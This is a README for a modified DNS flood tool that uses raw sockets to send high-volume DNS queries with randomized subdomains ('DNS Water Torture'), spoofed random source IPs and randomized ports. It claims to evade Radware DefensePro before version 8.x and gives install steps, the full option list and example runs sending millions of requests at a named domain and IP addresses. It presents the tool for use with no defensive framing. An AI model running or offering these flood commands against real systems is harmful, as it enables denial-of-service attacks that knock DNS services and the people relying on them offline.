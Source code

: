 # dns-flood
Original DNS-Flood tool found on code.google.com

This is modified version od DNS-Flood tool. 
Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

In contrast to original tool it provides:
  - subdomain part of query randomization aka DNS Water Torture
  - source port and TTL randomization
  - additional query types like AAAA and MX

The tool is able to bypass Radware DefensePro SW version prior to 8.x.

## How to install

1. Clone Repo
2. Run Make
3. Enjoy Kittens
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send   
	-d, --duration          run for at most this many seconds   
	-r, --random		fake random source IP  
	-D, --daemon		run as daemon  
	-h, --help          print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/
